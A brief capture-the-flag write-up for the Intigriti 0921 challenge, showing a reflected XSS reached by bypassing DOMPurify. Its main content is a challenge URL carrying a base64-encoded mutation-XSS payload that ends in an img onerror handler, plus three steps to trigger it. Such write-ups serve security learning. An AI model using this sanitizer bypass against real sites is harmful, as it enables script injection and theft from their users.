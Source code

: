 ## Summary

The Intigriti 0921 challenge is to bypass dompurify to trigger reflected xss vulnerability after analyzing the obfuscated javascript.


1. go to [https://challenge-0921.intigriti.io/challenge/manager.html?password=PG1hdGg+PG10ZXh0Pjx0YWJsZT48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPSItLSZndDsmbHQ7aW1nIHNyYz0xIG9uZXJyb3I9YWxlcnQoMSkmZ3Q7Ij4=](https://challenge-0921.intigriti.io/challenge/manager.html?password=PG1hdGg+PG10ZXh0Pjx0YWJsZT48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPSItLSZndDsmbHQ7aW1nIHNyYz0xIG9uZXJyb3I9YWxlcnQoMSkmZ3Q7Ij4=).
2. Enter the password.
3. If you entered the password, Click the add button

## Trigger

![image](https://user-images.githubusercontent.com/49112423/133606180-54d25e30-cf20-40bb-ac67-be1226419528.png)
